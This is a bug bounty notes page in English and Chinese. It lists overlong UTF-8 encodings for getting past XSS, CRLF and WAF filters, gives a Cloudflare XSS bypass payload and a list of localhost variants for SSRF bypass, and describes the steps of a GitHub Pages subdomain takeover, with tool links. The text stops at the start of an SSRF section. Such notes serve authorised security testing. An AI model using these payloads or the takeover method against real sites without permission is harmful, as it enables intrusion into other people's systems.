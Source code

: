 ## Bug Bounty Tips
#tips #bypass #xss #crlf 
Overlong UTF-8 encoding Attack

2-byte / 3-byte ⇒ original

%C0%8A / %E0%80%8A ⇒ %0A
%C0%8D / %E0%80%8D ⇒ %0D
%C0%BE / %E0%80%BE ⇒ %3E (>)
%C0%BC / %E0%80%BC ⇒ %3C (<)
%C0%A2 / %E0%80%A2 ⇒ %22 (")
%C0%A7 / %E0%80%A7 ⇒ %27 (')

For XSS, CRLF, WAF bypass
![bypass](../media/bypass-20230911.jpg)
https://jsfiddle.net/bw1Lhxnt

## Cloudflare XSS protection bypass
#bypass #xss #Cloudflare
```
"&gt;&lt;Svg Only=1 OnLoad=confirm(atob("Q2xvdWRmbGFyZSBYU1MgQG1fa2VsZXBjZQ=="))&gt;
```

## Bug Bounty Tips
#tips #ssrf
List of localhost addresses for SSRF bypass
```
🔹http://localhost
🔹http://*.localhost
🔹http://127.1
🔹http://127.0.0.0
🔹http://127.0.0.1
🔹http://2130706433
🔹http://0177.1
🔹http://0x7f.1
🔹http://127.000.000.1
🔹http://localtest .me
🔹http://[::1]
🔹http://[::]
```

## Github页面接管—子域名接管
### 原理
1. 目标子域 xxx.xx.com
![[../media/github404.jpg]]
2. dig +域名 拿到cname地址
xxx.github.io

3. github创建一个一样的仓库名
(原理是子域名cname指向这个空的githun页面可以被任何人创建并接管)

4. custom domain 设为 目标子域xxx.xx.com

### 工具🛠️推荐
1. https://github.com/m4ll0k/takeover
2. https://github.com/antichown/subdomain-takeover

## SSRF漏洞自整理
#ssrf 
1. 漏洞原理
